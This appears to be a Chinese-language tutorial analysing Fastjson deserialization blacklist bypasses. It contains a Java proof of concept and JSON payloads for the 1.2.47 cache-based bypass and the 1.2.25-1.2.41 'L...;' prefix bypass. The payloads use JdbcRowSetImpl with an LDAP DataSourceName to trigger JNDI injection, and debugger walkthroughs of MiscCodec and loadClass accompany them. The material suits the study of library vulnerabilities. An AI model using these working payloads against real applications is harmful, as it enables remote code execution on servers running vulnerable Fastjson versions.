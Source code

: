 ```plain
package EXPFastJson;

import com.alibaba.fastjson.JSON;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个 Class 类，值为恶意类
        //用之前 payload 从缓存中继续加载
        String s = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/cgQuBZlq\",\"AutoCommit\":\"false\"}}";
        JSON.parseObject(s);
    }
}
```

### 调试：

我们第一步是加载 Class 类，可以看到在缓存当中找到了，然后最后返回了 Class 类：

[![](assets/1701612260-b541436dab2a46a1b290f6f8a00b91b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230524-59d6854e-296a-1.png)

第二步我们就查到了对应的反序列化器是 MiscCodec，然后调到 MiscCodec 类下的 deserialze 函数：

[![](assets/1701612260-e9783c9374bb973f9852cb25fc9af55e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230529-5cb9e102-296a-1.png)

然后在这里判断 lexer.stringVal() 里面是否存在 val，不存在就抛出异常

[![](assets/1701612260-3da75c4237739830ae9725367712b5a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230534-5fcdb328-296a-1.png)

然后将我们的恶意类放入 strVal 里面进行 loadClass 加载，这里我们也可以发现在开启 AutoTyoe 的时候也存在绕过黑名单的一个形式：

[![](assets/1701612260-95e3c180c35fe160ac68ae9759d301d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230540-6312c8ca-296a-1.png)

所以这样的话 mapping 就有了我们加载的恶意类，然后在调用之前的恶意类我们就能够直接进行加载了。

## FastJson1.2.25-1.2.41 绕过：

我们上面提到了在缓存中获取类的下面有两个判断，也就是说在我们开启 AutoType 的情况下可以用下面两种方式来进行绕过：

*   如果以`[`开头则去掉`[`后进行类加载（在之前 Fastjson 已经判断过是否为数组了，实际走不到这一步）
*   如果以`L`开头，以`;`结尾，则去掉开头和结尾进行类加载

所以我们用下面这个就可以绕过黑名单进行加载，开启 AutoType：

```plain
import com.alibaba.fastjson.parser.ParserConfig;
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

```plain
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","DataSourceName":"ldap://127.0.0.1:8085/rNMfFuPI","AutoCommit":"false"}
```
